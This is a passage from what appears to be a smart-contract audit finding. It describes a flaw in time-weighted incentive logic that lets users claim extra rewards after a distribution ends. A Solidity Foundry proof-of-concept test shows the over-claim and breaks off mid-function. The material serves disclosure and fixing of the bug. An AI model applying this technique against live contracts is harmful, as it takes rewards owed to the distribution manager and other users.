 For users who are yet to update their checkpoints, the stored timestamp will be uninitialized as 0. Claiming after the distribution ends will require a calculation for the composite ratio that accounts for contributions from both the time when the rate would have been increasing, and also the remaining period after passing the required duration. If the claim `block.timestamp` exceeds the true end timestamp then this result in a large `timeDiff` that can exceed the intended duration of distribution. Therefore, the calculation of the ratio contribution from after the required duration has passed will be larger than the intended maximum distribution.

**Impact:** Additional rewards can be claimed after accrual should have ended, at the expense of the distribution manager and/or other users.

**Proof of Concept:** The following test, which should be placed within `TimeWeightedIncentiveLogic.t.sol`, demonstrates that a user can claim additional rewards after the distribution has ended:`

```solidity
function test_TimeWeightedClaimAfterEnd() public {
    skip(1 weeks);

    logic.updateDefaultFee(0);

    IncentivizedPoolId incentivizedId = IncentivizedPoolKey({ id: pool1, lpToken: lpToken1 }).toId();

    manager.setListedPool(incentivizedId, true);

    address[] memory systems = new address[](1);
    systems[0] = address(logic);

    // 1000 tokens will be distributed during 1 week
    uint256 amount = 1000 ether;
    uint256 duration = 1 weeks;

    logic.depositRewards(incentivizedId, address(token0), amount, duration);

    manager.notifyAddLiquidty(systems, pool1, lpToken1, user1, int256(100 ether));

    console.log("claiming immediately as duration ends");
    uint256 snapshotId = vm.snapshotState();

    skip(1 weeks);

    uint256 tokensEarned = logic.claim(incentivizedId, address(token0), user1, user1) / 1 ether;

    console.log(tokensEarned);

    console.log("claiming immediately as duration ends, then attempting again");
    require(vm.revertToStateAndDelete(snapshotId));
    snapshotId = vm.snapshotState();

    skip(1 weeks);

    uint256 tokensEarned1 = logic.claim(incentivizedId, address(token0), user1, user1) / 1 ether;
    skip(1 weeks);
    uint256 tokensEarned2 = logic.claim(incentivizedId, address(token0), user1, user1) / 1 ether;

    console.log(tokensEarned1);
    console.log(tokensEarned2);

    console.log("claiming some time after duration ends");
    require(vm.revertToStateAndDelete(snapshotId));
    snapshotId = vm.snapshotState();

    skip(5 weeks);

    tokensEarned = logic.claim(incentivizedId, address(token0), user1, user1) / 1 ether;
```
